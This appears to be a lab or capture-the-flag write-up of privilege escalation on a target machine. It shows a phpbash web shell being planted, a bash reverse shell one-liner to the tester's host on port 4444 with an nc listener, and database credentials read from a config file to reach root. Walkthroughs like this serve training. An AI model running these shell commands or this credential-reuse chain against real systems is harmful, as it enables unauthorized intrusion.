






::: page
# Hidden Findings {#hidden-findings .title}

\

We got a shell but it was a dead shell.

We tried getting a **tty shell, the cli was dead and nothing
happenened.**

We then used a tool called **phpbash.**

Downloaded **phpbash.php from github** and moved it to the t**ransfers
folder,** then hosted a web server on port 80 and used wget to get the
same on our **low level user.**

**Now, we ran phpbash.php and visited to**
**<http://10.49.170.20/phpbash.php>** **and got a shell :**

This is semi interactive shell.

We tried to run sudo on this using **sudo -l** but since its not a real
shell we couldnt check.

So, now we tried to send a shell to our kali machine using this php
shell and listen on a port on our kali.

Using this : **bash -c \'bash -i \>& /dev/tcp/192.168.155.203/4444
0\>&1\'**

On kali : **nc -nvlp 4444**

Got a shell :

But this also didnt allow us to run sudo -l , so now we used a tty
python shell spawner.

But this asked us for a password which we didnt have.

Nothing was convincing and we reached a dead end. So at this point we
just searched for anything inside the **( /var/www/html )** which was
the starting folder.

Found this at the exact path : **cd fuel/application/config/**

**database.php**

**Used the credentials and got root :**

:::
